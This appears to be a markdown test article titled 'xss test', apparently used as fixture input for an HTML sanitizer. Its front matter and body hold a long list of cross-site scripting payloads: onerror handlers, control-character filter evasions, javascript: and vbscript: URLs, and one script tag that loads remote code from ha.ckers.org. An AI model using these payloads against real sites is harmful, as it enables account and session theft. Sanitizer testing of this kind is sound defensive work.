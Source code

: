 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
directory: Bad Articles
priority: 1
role: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
tags:
  - <script>alert("hello")</script>
---
```

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

<video><source onerror="javascript:javascript:alert(1)">

<video onerror="javascript:javascript:alert(1)"><source>

<img src="javascript:alert(1)">

<img \x00src=x onerror="alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x11src=x onerror="javascript:alert(1)">

<img \x12src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x10src=x onerror="javascript:alert(1)">

<img\x13src=x onerror="javascript:alert(1)">

<img\x32src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x11src=x onerror="javascript:alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x34src=x onerror="javascript:alert(1)">

<img \x39src=x onerror="javascript:alert(1)">

<img \x00src=x onerror="javascript:alert(1)">

<img src\x09=x onerror="javascript:alert(1)">

<img src\x10=x onerror="javascript:alert(1)">

<img src\x13=x onerror="javascript:alert(1)">

<img src\x32=x onerror="javascript:alert(1)">

<img src\x12=x onerror="javascript:alert(1)">

<img src\x11=x onerror="javascript:alert(1)">

<img src\x00=x onerror="javascript:alert(1)">

<img src\x47=x onerror="javascript:alert(1)">

<img src=x\x09onerror="javascript:alert(1)">

<img src=x\x10onerror="javascript:alert(1)">

<img src=x\x11onerror="javascript:alert(1)">

<img src=x\x12onerror="javascript:alert(1)">

<img src=x\x13onerror="javascript:alert(1)">

<img\[a]\[b]\[c]src\[d]=x\[e]onerror=\[f]"alert(1)">

<img src=x onerror=\x09"javascript:alert(1)">

<img src=x onerror=\x10"javascript:alert(1)">

<img src=x onerror=\x11"javascript:alert(1)">

<img src=x onerror=\x12"javascript:alert(1)">

<img src=x onerror=\x32"javascript:alert(1)">

<img src=x onerror=\x00"javascript:alert(1)">

<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>

<img src="x\` \`<script>javascript:alert(1)</script>"\` \`>

<img src onerror /" '"= alt=javascript:alert(1)//">

<title onpropertychange=javascript:alert(1)></title><title title=>

<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">

# [akjdka](foo.bar)

<!--\\[if]><script>javascript:alert(1)</script -->

<!--\\[if<img src=x onerror=javascript:alert(1)//]> -->

<IMG LOWSRC="javascript:javascript:alert(1)">

<img src=\`%00\`&NewLine; onerror=alert(1)&NewLine;

<IMG SRC='vbscript:msgbox("XSS")'>

<math><a xlink:href="//jsfiddle.net/t846h/">click
